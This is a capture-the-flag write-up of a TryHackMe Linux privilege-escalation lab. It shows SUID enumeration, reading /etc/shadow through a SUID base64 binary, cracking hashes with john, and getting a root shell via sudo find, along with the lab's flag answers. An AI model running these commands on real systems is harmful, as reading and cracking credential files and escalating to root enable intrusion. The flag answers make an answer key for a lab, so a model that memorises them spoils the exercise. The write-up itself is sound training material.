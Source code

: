 ```yaml
---
title: "Tryhackme - Linux Privilege Escalation"
date: 2025-01-24 12:00:00 -500 
categories: [Tryhackme, Linux Privilege Escalation]
tags: [ctf,exploit,flags,tryhackme,pentesting,net,sec,privilege,escalation,liunux]
author: Christoph K
---
```

[TryHackMe- Linux Privilege Escalation ](https://tryhackme.com/r/room/linprivesc)




## Introduction

    You have gained SSH access to a large scientific facility. Try to elevate your privileges until you are Root.
    We designed this room to help you build a thorough methodology for Linux privilege escalation that will be very useful in exams such as OSCP and your penetration testing engagements.

    Leave no privilege escalation vector unexplored, privilege escalation is often more an art than a science.

    You can access the target machine over your browser or use the SSH credentials below.

    Username: leonard
    Password: Penny123



### Tasks:

- What is the content of the flag1.txt file?
- What is the content of the flag2.txt file?



### Privilege Escalation

In this case, we have already captured an user so we can login as `leonard`. The task here is to get more privileges. 

We use `ssh` to connect to the machine as `leonard`


```bash
└─$ ssh leonard@10.10.231.2
The authenticity of host '10.10.231.2 (10.10.231.2)' can't be established.
ED25519 key fingerprint is SHA256:1dMTd32PB7hStUUoiefpE+ckRSQl9B6tlu4mBNO2v4k.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.231.2' (ED25519) to the list of known hosts.
(leonard@10.10.231.2) Password:
Last login: Sun Jan 26 13:09:24 2025 from ip-10-100-2-141.eu-west-1.compute.internal
[leonard@ip-10-10-231-2 ~]$
```

There are many ways to escalate our privleges and a lot of locations to look. I use following `to do` list as an user:

- Check what the user is allowed to open as sudo (-sudo -l)
- Check `SUID`  
- Check `getcap`(Capabilities privileges)
- Check `crontab`for scripts or things we can execute with wither rights
- Check `NFS shares`


Of course we can use `linepeas` to search for vulnerabilities but we want to practise our `manually privliege escalation` here.


#### Check commands the user is allowed using sudo 

The sudo -l command in Linux is used to list the commands a user is allowed to execute using sudo on the system.

```bash

[leonard@ip-10-10-231-2 ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

```

Okay we dont have anything here, so lets check the next one:

#### Check SUID permission


We can check the `SUID` with `find`.

`find / -type f -perm -04000 -ls /2>/dev/null`




```bash

Usage: find [-H] [-L] [-P] [-Olevel] [-D help|tree|search|stat|rates|opt|exec] [path...] [expression]
[leonard@ip-10-10-231-2 ~]$ find / -type f -perm -04000 -ls 2>/dev/null
16779966   40 -rwsr-xr-x   1 root     root        37360 Aug 20  2019 /usr/bin/base64
17298702   60 -rwsr-xr-x   1 root     root        61320 Sep 30  2020 /usr/bin/ksu
17261777   32 -rwsr-xr-x   1 root     root        32096 Oct 30  2018 /usr/bin/fusermount
17512336   28 -rwsr-xr-x   1 root     root        27856 Apr  1  2020 /usr/bin/passwd
17698538   80 -rwsr-xr-x   1 root     root        78408 Aug  9  2019 /usr/bin/gpasswd
17698537   76 -rwsr-xr-x   1 root     root        73888 Aug  9  2019 /usr/bin/chage
17698541   44 -rwsr-xr-x   1 root     root        41936 Aug  9  2019 /usr/bin/newgrp
17702679  208 ---s--x---   1 root     stapusr    212080 Oct 13  2020 /usr/bin/staprun
17743302   24 -rws--x--x   1 root     root        23968 Sep 30  2020 /usr/bin/chfn
17743352   32 -rwsr-xr-x   1 root     root        32128 Sep 30  2020 /usr/bin/su
17743305   24 -rws--x--x   1 root     root        23880 Sep 30  2020 /usr/bin/chsh
17831141 2392 -rwsr-xr-x   1 root     root      2447304 Apr  1  2020 /usr/bin/Xorg
17743338   44 -rwsr-xr-x   1 root     root        44264 Sep 30  2020 /usr/bin/mount
17743356   32 -rwsr-xr-x   1 root     root        31984 Sep 30  2020 /usr/bin/umount
17812176   60 -rwsr-xr-x   1 root     root        57656 Aug  9  2019 /usr/bin/crontab
17787689   24 -rwsr-xr-x   1 root     root        23576 Apr  1  2020 /usr/bin/pkexec
18382172   52 -rwsr-xr-x   1 root     root        53048 Oct 30  2018 /usr/bin/at
20386935  144 ---s--x--x   1 root     root       147336 Sep 30  2020 /usr/bin/sudo
34469385   12 -rwsr-xr-x   1 root     root        11232 Apr  1  2020 /usr/sbin/pam_timestamp_check
34469387   36 -rwsr-xr-x   1 root     root        36272 Apr  1  2020 /usr/sbin/unix_chkpwd
36070283   12 -rwsr-xr-x   1 root     root        11296 Oct 13  2020 /usr/sbin/usernetctl
35710927   40 -rws--x--x   1 root     root        40328 Aug  9  2019 /usr/sbin/userhelper
38394204  116 -rwsr-xr-x   1 root     root       117432 Sep 30  2020 /usr/sbin/mount.nfs
958368   16 -rwsr-xr-x   1 root     root        15432 Apr  1  2020 /usr/lib/polkit-1/polkit-agent-helper-1

```

This is a interesting list. There are possibly several ways to abuse one of those files but I used `base64`.



#### Using base64 to open /etc/shadow


We can use `base64` as `sudo` so we have access to `/etc/shadow`. With that we can `dump` the user database and `crack` it with `john`:


```bash
[leonard@ip-10-10-231-2 ~]$ base64 /etc/shadow | base64 -d > shadow.txt
[leonard@ip-10-10-231-2 ~]$ base64 /etc/passwd | base64 -d > passwd.txt
```

I created two files: 
- shadow.txt
- passwd.txt

With those two we can try to crack them.

First we have to use `unshadow` to create a crackable file for `john`:


`unshadow passwd.txt shadow.txt > passwords.txt`


Now we can crack the file `password.txt` with `john`: 

```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 24 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (missy)
Penny123         (leonard)
2g 0:00:21:34 DONE (2025-01-26 13:35) 0.001545g/s 11083p/s 11633c/s 11633C/s !!!playboy!!!7..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We have another user `missy`. 


#### Checking user missy

We can login with `missy` on `ssh` and check if she has more permissions than `leonard`:



```bash

[missy@ip-10-10-231-2 ~]$ sudo -l
Matching Defaults entries for missy on ip-10-10-231-2:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2
    QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-231-2:
    (ALL) NOPASSWD: /usr/bin/find`
```


Okay that is really nice, we can use `find` as `sudo`. We can check `GTFObins` if we find a possiblity to use the command to escalate our privileges.

We can use the following command to get a root shell:

`sudo find . -exec /bin/sh \; -quit`


Lets try it:


```bash

sh-4.2$ sudo find . -exec /bin/sh \; -quit
sh-4.2# whoami
root
```


#### Getting flag1:

Now it is easy, we have already `root` privileges on the machine, so we can just search and open the flags:

```bash

sh-4.2# find / -name flag1.txt
/home/missy/Documents/flag1.txt
sh-4.2# cat /home/missy/D
Desktop/   Documents/ Downloads/
sh-4.2# cat /home/missy/Documents/flag1.txt
THM-42828719920544
```

Answer Flag1: `THM-42828719920544`



#### Getting flag2: 

And the next one:

```bash

sh-4.2# find / -name flag2.txt 2>/dev/null
/home/rootflag/flag2.txt
sh-4.2# cat /home/rootflag/flag2.txt
THM-168824782390238
sh-4.2#

```

Answer Flag2: `THM-168824782390238`



## Thoughts:

This is a fantastic room. I learned a lot about `escalating privileges` and want to recommend everyone to check out the room. 
There is a lot of different labs and every lab shows you another way to get `root`. Fantastic!

